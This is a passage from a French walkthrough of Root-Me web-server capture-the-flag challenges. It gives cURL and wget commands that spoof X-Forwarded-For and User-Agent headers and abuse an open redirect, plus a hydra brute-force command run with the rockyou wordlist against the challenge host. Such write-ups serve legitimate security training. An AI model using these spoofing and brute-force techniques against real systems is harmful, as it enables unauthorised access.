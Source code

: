 ```bash
wget http://challenge01.root-me.org/web-serveur/ch68/ --header 'X-Forwarded-For: 192.168.1.1'
cat index.html
```

Résultat attendu :

```
Well done, the validation password is: 
```

---

## 3. HTTP - Open redirect

L'objectif est d'exploiter une redirection ouverte, permettant de rediriger un utilisateur vers un autre site.

### Solution avec `cURL` :

```bash
curl -G http://challenge01.root-me.org/web-serveur/ch52/ -d "url=https://google.fr&h=0edf27c83d4aa4699c0625d27be0e371" -o http-open-redirect.txt
```

L’option `-G` avec `-d` permet d’envoyer des données en `GET`, et `-o` enregistre le résultat dans un fichier texte.

---

## 4. HTTP - User-agent

Certains sites accordent des permissions spéciales en fonction de l'User-Agent.

### Solution avec `cURL` :

```bash
curl -v --header "User-Agent: admin" -X GET http://challenge01.root-me.org/web-serveur/ch2/
```

Flag obtenu : 

---

## 5. Mot de passe faible

L'objectif est de tester la robustesse d'un mot de passe en utilisant un outil de force brute.

### Solution avec `hydra` :

```bash
hydra -l admin -P rockyou.txt -e nrs -vv challenge01.root-me.org http-get /web-serveur/ch3/
```

Résultat attendu :

```
[80][http-get] host: challenge01.root-me.org   login: a...   password: a..
```

---